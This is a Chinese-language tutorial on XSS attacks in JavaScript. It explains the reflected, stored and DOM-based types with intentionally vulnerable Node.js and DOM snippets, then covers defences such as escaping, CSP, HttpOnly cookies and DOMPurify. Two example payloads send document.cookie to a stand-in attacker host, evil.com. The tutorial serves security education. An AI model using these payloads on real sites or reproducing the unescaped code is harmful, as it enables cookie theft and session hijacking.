



# JavaScript XSS攻击

## 什么是XSS攻击？

跨站脚本攻击（Cross-Site Scripting，通常简称为XSS）是一种常见的Web安全漏洞，它允许攻击者将恶意JavaScript代码注入到受害者浏览的网页中。当其他用户访问该网页时，恶意代码会在用户的浏览器中执行，从而可能导致用户信息泄露、会话劫持、网站内容篡改等安全问题。

:::warning
XSS攻击占据OWASP（开放Web应用安全项目）Top 10安全风险的前列，是Web应用程序中最常见也是最危险的安全威胁之一。
:::

## XSS攻击的类型

XSS攻击主要分为三种类型：

### 1. 反射型XSS

反射型XSS（Reflected XSS）是最常见的XSS类型。攻击者将恶意代码嵌入到URL中，当服务器接收到这个URL请求后，未经过滤就将其"反射"回用户的浏览器中执行。



### 2. 存储型XSS

存储型XSS（Stored XSS）是将恶意代码存储在目标服务器上（如数据库、用户评论系统等），当其他用户浏览包含此恶意代码的页面时，代码会被执行。这种类型的XSS更危险，因为无需特定链接即可触发攻击。



### 3. DOM型XSS

DOM型XSS与前两种不同，它不涉及服务器端代码，而是发生在客户端脚本对DOM的不安全操作上。攻击者通过修改页面的DOM环境来执行恶意代码。



## XSS攻击的实例分析

### 反射型XSS实例

假设有一个搜索功能，服务器直接将搜索词反射到结果页面：

```javascript
// 服务器端代码 (Node.js示例)
app.get('/search', (req, res) => {
  const query = req.query.q;
  // 不安全：直接将用户输入嵌入HTML
  res.send(`
    <h1>搜索结果：</h1>
    <p>您搜索的是: ${query}</p>
    <ul>
      <!-- 搜索结果列表 -->
    </ul>
  `);
});
```

攻击者可能构造如下URL：

```
https://example.com/search?q=<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

当用户点击此链接时，恶意脚本将执行并发送用户的cookie到攻击者的服务器。

### 存储型XSS实例

考虑一个允许用户发表评论的博客系统：

```javascript
// 存储评论的服务器端代码
app.post('/comments', (req, res) => {
  const comment = req.body.comment;
  // 不安全：未过滤就存储用户输入
  db.storeComment(comment); 
  res.redirect('/article');
});

// 显示评论的服务器端代码
app.get('/article', (req, res) => {
  const comments = db.getComments();
  let commentsHtml = '';
  
  // 不安全：直接将存储的内容嵌入HTML
  comments.forEach(comment => {
    commentsHtml += `<div class="comment">${comment}</div>`;
  });
  
  res.send(`
    <h1>文章标题</h1>
    <div class="content">...</div>
    <div class="comments">
      ${commentsHtml}
    </div>
  `);
});
```

攻击者可以提交包含恶意脚本的评论：

```html
很棒的文章！<script>var img = new Image(); img.src = 'https://evil.com/steal?cookie=' + document.cookie;</script>
```

此评论被存储后，所有查看该文章的用户都将执行恶意脚本。

### DOM型XSS实例

假设有一个客户端脚本基于URL的hash部分来显示内容：

```html
<div id="welcome-message"></div>

<script>
  // 不安全：直接使用location.hash并通过innerHTML插入
  document.getElementById('welcome-message').innerHTML = 
    "欢迎, " + decodeURIComponent(location.hash.substring(1));
</script>
```

攻击者可以创建如下URL：

```
https://example.com/page#
```

当受害者访问此链接，浏览器会解析hash值并插入到DOM中，触发恶意脚本执行。

## XSS攻击的危害

XSS攻击可能导致以下严重后果：

1. **Cookie/会话劫持**：攻击者可以窃取用户的Cookie或会话标识，从而以用户身份进行操作
2. **凭证盗窃**：可以窃取用户在表单中输入的敏感信息，如密码、信用卡号等
3. **网页篡改**：修改页面内容，实施钓鱼攻击或传播虚假信息
4. **恶意重定向**：将用户重定向到钓鱼网站
5. **键盘记录**：记录用户的键盘输入
6. **僵尸网络**：利用受害者的浏览器组成僵尸网络进行DDoS攻击

## XSS防御策略

### 1. 输入验证与过滤

始终验证和过滤用户输入，拒绝明显的恶意内容。

```javascript
// 简单的HTML特殊字符转义
function escapeHtml(text) {
  return text
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// 使用
const userInput = req.query.input;
const safeInput = escapeHtml(userInput);
```

### 2. 输出编码

在将数据输出到HTML、JavaScript、CSS或URL时，根据上下文进行适当编码。

```javascript
// 在Node.js环境中使用较为完善的库
const { escapeHTML, escapeEcmaScriptString } = require('some-encoding-library');

// HTML上下文
res.send(`<div>${escapeHTML(userContent)}</div>`);

// JavaScript上下文
res.send(`<script>var userInput = "${escapeEcmaScriptString(userContent)}";</script>`);
```

### 3. 内容安全策略(CSP)

使用Content Security Policy限制可执行脚本的来源：

```html
<!-- 在HTML中设置 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted-cdn.com">
```

或通过HTTP头设置：

```javascript
// Express.js中设置CSP头
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self' https://trusted-cdn.com"
  );
  next();
});
```

### 4. HttpOnly Cookie

将敏感Cookie标记为HttpOnly，防止JavaScript访问：

```javascript
// 在Node.js/Express中设置HttpOnly cookie
res.cookie('sessionId', 'abc123', { 
  httpOnly: true,
  secure: true,  // 如果是HTTPS
  sameSite: 'strict'
});
```

### 5. 使用现代框架

现代JavaScript框架（如React、Vue、Angular）提供了防止XSS的机制，默认会转义输出：

```jsx
// React会自动转义这里的内容
function WelcomeMessage({ username }) {
  return <div>欢迎, {username}</div>;
}
```

但在使用`dangerouslySetInnerHTML`等功能时仍需谨慎：

```jsx
// 使用dangerouslySetInnerHTML时要确保内容安全
function Comment({ commentHTML }) {
  return <div dangerouslySetInnerHTML={{ __html: commentHTML }} />;
}
```

### 6. 使用DOMPurify等库

在需要处理富文本内容时，使用专业的HTML清理库：

```javascript
import DOMPurify from 'dompurify';

// 清理用户提供的HTML
const clean = DOMPurify.sanitize(userProvidedHTML);
document.getElementById('content').innerHTML = clean;
```

## 实际案例：XSS漏洞利用与修复

### 案例1：Twitter XSS蠕虫

2010年，Twitter遭遇了著名的"onMouseOver"XSS攻击。用户只需将鼠标悬停在某些推文上，就会触发JS代码执行。这使得恶意推文能够自动转发，形成病毒式传播。

**问题代码**（简化示例）：
```javascript
// Twitter未正确过滤推文中的HTML/JavaScript
tweet.innerHTML = userProvidedTweetContent;
```

**修复方案**：
```javascript
// 对所有推文内容进行严格过滤或使用textContent而非innerHTML
tweet.textContent = userProvidedTweetContent;

// 或者使用专业库进行内容清理
tweet.innerHTML = DOMPurify.sanitize(userProvidedTweetContent);
```

### 案例2：博客评论XSS

假设一个博客网站允许HTML格式评论，但过滤不严格。

**问题代码**：
```javascript
// 仅过滤<script>标签
function filterComment(comment) {
  return comment.replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, "");
}

// 显示评论
commentSection.innerHTML = filterComment(userComment);
```

这种过滤方法可被绕过，例如使用``等方式。

**修复方案**：
```javascript
// 使用白名单过滤
const commentConfig = {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a'],
  ALLOWED_ATTR: ['href']
};

// 使用DOMPurify进行严格过滤
commentSection.innerHTML = DOMPurify.sanitize(userComment, commentConfig);
```

## 总结

XSS是一种严重且普遍的安全威胁，作为开发人员，我们必须：

1. 理解各种XSS攻击类型及其工作原理
2. 始终验证和清理用户输入
3. 根据上下文正确编码输出
4. 实施内容安全策略(CSP)
5. 使用HttpOnly Cookie保护敏感信息
6. 利用现代框架和库提供的安全特性
7. 定期进行安全审核和测试

通过采取这些预防措施，您可以显著降低XSS攻击风险，保护您的用户和应用程序免受伤害。

## 练习与扩展学习

1. **实践练习**: 创建一个简单的留言板应用，然后尝试发现和修复其中的XSS漏洞
2. **代码审查**: 检查您现有的项目中可能存在的XSS漏洞
3. **安全工具**: 学习使用OWASP ZAP或Burp Suite等工具进行XSS测试

:::tip 扩展阅读资源
- [OWASP XSS防御备忘单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN Web安全](https://developer.mozilla.org/zh-CN/docs/Web/Security)
- [内容安全策略(CSP)详解](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
:::

掌握XSS防御知识不仅是成为一名合格Web开发者的必要技能，也是构建安全、可靠应用程序的基础。通过不断学习和实践，您将能够编写更加安全的代码，为用户提供更好的保护。